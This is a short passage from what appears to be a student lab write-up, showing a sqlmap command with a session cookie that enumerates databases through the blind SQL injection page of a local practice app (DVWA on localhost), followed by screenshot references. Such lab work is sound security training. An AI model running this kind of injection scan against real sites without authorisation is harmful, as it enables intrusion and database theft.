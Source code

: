 Use the command below to get information about all available databases

```
python sqlmap.py -u "http://localhost:4280/vulnerabilities/sqli_blind/?id=&Submit=Submit#" --cookie="PHPSESSID=c3243e5dcda438603c9d3ae
ce31e8670; security=low" --dbs
```

After waiting for sqlmap scan the website, we get the result

<img alt="Screenshot" src="./img/task2/5.png">

After running second time

<img alt="Screenshot" src="./img/task2/6.png">
